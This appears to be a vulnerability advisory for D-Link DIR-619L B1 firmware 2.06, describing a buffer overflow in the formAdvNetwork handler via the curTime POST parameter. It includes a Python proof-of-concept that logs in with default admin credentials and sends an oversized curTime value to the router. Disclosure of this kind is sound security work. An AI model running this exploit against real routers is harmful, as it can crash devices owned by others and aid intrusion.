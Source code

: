 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

## Affected version

D-Link DIR-619L B1 2.06

## Vulnerability details

In the D-Link DIR-619L B1 2.06 firmware has a buffer overflow vulnerability in the `formAdvNetwork` function. The `v41` variable receives the `curTime` parameter from a POST request. However, since the user can control the input of `curTime`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240927140722759](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240927140722759.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formAdvNetwork"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "curTime": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240927142954053](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240927142954053.png)
